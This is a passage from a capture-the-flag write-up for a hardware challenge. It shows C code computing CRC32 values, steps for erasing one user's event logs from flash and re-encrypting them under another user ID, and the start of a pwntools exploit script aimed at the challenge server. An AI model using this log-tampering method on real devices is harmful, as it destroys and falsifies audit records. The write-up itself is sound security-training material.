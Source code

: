         }

        int main(){
            uint8_t dat1[] = {35, 197, 21, 102, 214, 0, 160, 3, 1, 1, 0, 0, 207, 91, 108, 133};
            uint8_t dat2[] = {191, 243, 21, 102, 187, 0, 160, 3, 3, 1, 0, 0, 236, 104, 129, 205};
            uint8_t dat3[] = {227, 21, 22, 102, 187, 0, 160, 3, 3, 1, 0, 0, 134, 173, 71, 208};
            uint8_t dat4[] = {239, 127, 22, 102, 214, 0, 160, 3, 3, 1, 0, 0, 209, 155, 216, 44};
            uint32_t crc;
            crc = calculateCRC32(dat1, 12);
            printf("%x\n", crc);
            crc = calculateCRC32(dat2, 12);
            printf("%x\n", crc);
            crc = calculateCRC32(dat3, 12);
            printf("%x\n", crc);
            crc = calculateCRC32(dat4, 12);
            printf("%x\n", crc);
            return 0;
        }
        ```
* Check out `Figure18` to see the final exploit code. I first read the security register and 0x9c0 where the `user_id` 0x5244 is placed.
    * If you want to write new data in the flash, you have to erase that area and write it. Not overwrite. So we got to remove the data in 0x9c0 but it wasn't available to remove only that part. But to just erase by Sector(0x1000 bytes).
* And then I cleared the logs with `user_id` 0x5244 only. I've done it with reading whole logs and erase the flash, and then write the logs that I read except `user_id` 0x5244 logs. So that's what `erase_only_specific()` does.
* Now decrypt the event logs with 0x5244 and change the `user_id` to 0x3a0. And encrypt it with `encrypt_data()`. And finally write it on flash with `write_payload()`. 
* Check out `Figure19` to see the code running.

Figure 17 : 

<img alt="new crc" src="https://raw.githubusercontent.com/FirmExtract/FirmExtract-Posts/main/HTB%20Cyber%20Apocalypse%202024%20Hardware%20Challenge%20Writeup/images/image15.jpg" width="50%"><br><br>

Figure 18 :

```
from pwn import *
import socket
import json

server = "nc 94.237.57.155 58163"
server = server.split()

s = remote(server[1], server[2])

FLAG_ADDRESS = [0x52, 0x52, 0x52]

crc_list = [[0x20, 0xe4, 0xca, 0x0d], [0x03, 0xd7, 0x27, 0x45], [0x69,0x12, 0xe1, 0x58], [0x3e, 0x24, 0x7e, 0xa4]] // Little endian

'''
dcae420
4527d703
58e11269
a47e243e
'''


def erase_mem():
    exchange([0x06]) # Write Enable
    exchange([0x20, 0x00, 0x00, 0x00])

def program_pages(original):
```